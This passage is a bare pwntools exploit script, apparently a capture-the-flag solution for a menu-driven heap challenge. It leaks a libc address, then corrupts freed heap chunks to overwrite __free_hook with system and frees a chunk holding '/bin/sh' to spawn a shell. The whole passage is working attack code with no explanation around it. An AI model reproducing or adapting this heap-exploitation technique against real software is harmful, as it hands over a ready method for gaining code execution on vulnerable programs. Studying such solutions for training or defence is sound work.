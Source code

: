 ```
    p.sendlineafter("input index\n", str(index))
    p.sendafter("input content\n", content)


def show(index):
    p.sendlineafter("&gt;&gt; \n", "4")
    p.sendlineafter("input index\n", str(index))


def leave_name(name):
    p.sendlineafter("&gt;&gt; \n", "5")
    p.sendafter("your name:\n", name)


def show_name():
    p.sendlineafter("&gt;&gt; \n", "6")


for i in range(11):
    add(i, 0x18)
for i in range(7):
    delete(i + 4)

delete(0)
delete(1)
delete(2)
delete(3)
leave_name("1212")
show(0)

libc.address = u64(p.recvline().strip(b"\n").ljust(8, b"\x00")) - 0xd0 - 0x10 - libc.sym['__malloc_hook']

for i in range(7):
    add(i + 4, 0x18)

# gdb.attach(p, "b *$rebase(0xdd9)")

log.success("libc address is `{``}`".format(hex(libc.address)))

add(11, 0x60)
delete(1)
payload = b"a"*0x10 + p64(0x61) + p64(libc.sym['__free_hook'] - 0x8)
payload += b"b"*0x10 + p64(0x21) + b"/bin/sh\x00"
edit(11, payload)
add(12, 0x50)
add(13, 0x50)
edit(13, p64(libc.sym['system']))
delete(2)

p.interactive()
```
